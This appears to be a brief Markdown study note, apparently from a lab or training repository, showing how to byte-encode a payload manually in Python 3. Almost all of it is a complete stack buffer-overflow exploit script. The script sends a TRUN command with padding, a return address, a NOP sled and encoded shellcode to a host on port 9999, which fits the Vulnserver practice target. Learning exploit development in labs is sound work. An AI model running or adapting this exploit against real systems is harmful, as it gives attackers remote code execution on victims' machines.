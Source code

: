 ## SOMETIMES the Payload Encoder in python3 does not work as we wanted to

* **the solution is** manually byte encode it like this:

```
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
